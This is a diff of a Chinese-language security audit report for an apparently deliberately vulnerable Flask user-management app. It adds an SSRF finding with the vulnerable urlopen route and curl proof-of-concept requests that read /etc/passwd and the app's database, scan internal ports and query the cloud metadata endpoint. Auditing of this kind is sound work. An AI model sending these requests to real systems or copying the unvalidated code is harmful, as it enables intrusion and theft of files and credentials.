

Before and after one commit to jjyyxx-1/flask-user-mgmt-security, a Markdown page: docs/audit-report.md, the part around one of its changes. Shown at 85% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/docs/audit-report.md
+++ b/docs/audit-report.md
@@ -4,8 +4,8 @@
 
 **项目名称：** Flask 用户信息管理平台
 **审计日期：** 2026-07-13
-**漏洞总数：** 8
-**严重漏洞：** 5 | **中危漏洞：** 2 | **低危漏洞：** 1
+**漏洞总数：** 9
+**严重漏洞：** 6 | **中危漏洞：** 2 | **低危漏洞：** 1
 
 ---
 
@@ -13,15 +13,68 @@
 
 | 编号 | 漏洞类型 | 位置 | 严重性 |
 |------|---------|------|:------:|
-| V-001 | **CSRF密码修改** | `/change-password` | 🔴 严重 |
-| V-002 | **IDOR 越权改密** | `/change-password` | 🔴 严重 |
-| V-003 | **无原密码校验** | `/change-password` | 🔴 严重 |
-| V-004 | **IDOR 越权查资料** | `/profile?user_id=` | 🔴 严重 |
-| V-005 | **负金额充值** | `/recharge` | 🔴 严重 |
-| V-006 | SQL注入（搜索） | `/?keyword=` | 🔴 严重 |
-| V-007 | 路径穿越 | `/page?name=../` | 🔴 严重 |
-| V-008 | 任意文件上传 | `/upload` | 🟡 中危 |
+| V-001 | **SSRF 服务端请求伪造** | `/fetch-url` | 🔴 严重 |
+| V-002 | **CSRF 密码修改** | `/change-password` | 🔴 严重 |
+| V-003 | **越权改密** | `/change-password` | 🔴 严重 |
+| V-004 | **无原密码校验** | `/change-password` | 🔴 严重 |
+| V-005 | **IDOR 越权查资料** | `/profile?user_id=` | 🔴 严重 |
+| V-006 | **负金额充值** | `/recharge` | 🔴 严重 |
+| V-007 | SQL注入（搜索） | `/?keyword=` | 🔴 严重 |
+| V-008 | 路径穿越 | `/page?name=../` | 🔴 严重 |
+| V-009 | 任意文件上传 | `/upload` | 🟡 中危 |
 
 ---
 
-## 1. V-001/V-002/V-003 密码修改三重漏洞
+## 1. V-001 SSRF 服务端请求伪造
+
+**CWE:** CWE-918: Server-Side Request Forgery (SSRF)
+**CVSS:** 9.1 (Critical)
+
+### 漏洞代码
+```python
+import urllib.request
+
+@app.route("/fetch-url", methods=["POST"])
+def fetch_url():
+    url = request.form.get("url", "")
+    resp = urllib.request.urlopen(url, timeout=10)
+    content = resp.read(5000)
+```
+
+**问题：** 用户输入的 URL **未经任何校验**直接传给 `urlopen()`，允许：
+- `file://` 协议读取本地文件
+- `http://127.0.0.1` 访问内网服务
+- `http://10.x.x.x` 扫描内网资产
+
+### POC：file:// 协议读取系统文件
+
+```bash
+# 读取 /etc/passwd (Linux)
+curl -X POST http://127.0.0.1:5000/fetch-url \
+  -d "url=file:///etc/passwd"
+
+# 读取 app.py 源码
+curl -X POST http://127.0.0.1:5000/fetch-url \
+  -d "url=file:///path/to/app.py"
+
+# 读取数据库文件
+curl -X POST http://127.0.0.1:5000/fetch-url \
+  -d "url=file:///path/to/data/users.db"
+```
+
+### POC：内网端口扫描
+
+```bash
+# 扫描本机 MySQL 端口
+curl -X POST http://127.0.0.1:5000/fetch-url \
+  -d "url=http://127.0.0.1:3306"
+
+# 扫描内网主机
+curl -X POST http://127.0.0.1:5000/fetch-url \
+  -d "url=http://10.0.0.1:22"
+
+# 访问云元数据 API（AWS）
+curl -X POST http://127.0.0.1:5000/fetch-url \
+  -d "url=http://169.254.169.254/latest/meta-data/"
+```
+
````
Also changed, not shown: other parts of docs/audit-report.md (+45 -68 lines).
